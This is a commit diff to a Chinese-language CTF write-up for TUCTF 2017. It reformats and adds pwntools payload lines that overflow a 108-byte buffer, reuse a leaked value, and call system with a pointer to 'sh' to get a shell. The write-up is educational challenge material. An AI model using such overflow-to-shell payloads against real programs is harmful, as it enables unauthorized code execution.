

Before and after one commit to w181496/CTF, a Markdown page: tuctf-2017/README.md, the part around the change printed below. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/tuctf-2017/README.md
+++ b/tuctf-2017/README.md
@@ -102,13 +102,18 @@ Guessed arguments:
 ```
 
 
-改用 r.sendline("\x00"*108 + p32(0xdeadbeef)*1 + p32(0) * 11 + p32(system_addr) + p32(sh) * 2) 後：
+改用 `r.sendline("\x00"*108 + p32(0xdeadbeef)*1 + p32(0) * 11 + p32(system_addr) + p32(sh) * 2)` 後：
 
 ```
 Guessed arguments:
      arg[0]: 0xdeadbeef                    <============  108 ~ 112的位置
      arg[1]: 0xffbb7ad0 --> 0x0
 ```
+
+最後用前面leak出來的渣渣塞回去，讓他不會炸就行惹
+
+`r.sendline("\x00"*108 + p32(data1) * 1 + p32(0xdeadbeef) * 11 + p32(system_addr) + p32(sh) * 2)`
+
 
 ## The nerver ending crypto
 
````
Also changed, not shown: other parts of tuctf-2017/README.md (+16 -11 lines), tuctf-2017/iframe.png (added).
